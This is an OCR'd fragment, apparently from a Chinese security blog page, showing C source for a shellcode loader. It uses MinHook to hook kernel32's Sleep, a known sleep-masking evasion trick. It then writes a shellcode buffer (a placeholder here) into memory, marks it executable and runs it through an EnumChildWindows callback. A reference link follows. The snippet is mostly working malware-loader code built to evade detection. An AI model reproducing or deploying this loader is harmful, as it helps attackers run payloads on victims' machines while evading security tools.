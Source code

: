 ```plain
}
BOOL HookTest() {
    if (MH_Initialize() != MH_OK)
    {
        return 1;
    }

    if (MH_CreateHookApiEx(
        L"kernel32.dll", "Sleep", &HookedSleep, &SleepTest) != MH_OK)
    {
        return 1;
    }

    if (MH_EnableHook(MH_ALL_HOOKS) != MH_OK)
    {
        return 1;
    }
}
int main()
{
    HookTest();
    unsigned char dll[263168] = {shellcode}
    SIZE_T size = sizeof(dll);
    SIZE_T bytesWritten = 0;
    DWORD oldProtect = 0;
    void* sh = VirtualAllocEx(GetCurrentProcess(), 0, (SIZE_T)size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    WriteProcessMemory(GetCurrentProcess(), sh, dll, size, &bytesWritten);
    VirtualProtectEx(GetCurrentProcess(), sh, size, PAGE_EXECUTE_READ, &oldProtect);
    EnumChildWindows(NULL, (WNDENUMPROC)sh, NULL);

}
```

参考： 
[https://tttang.com/archive/1392/](https://tttang.com/archive/1392/)
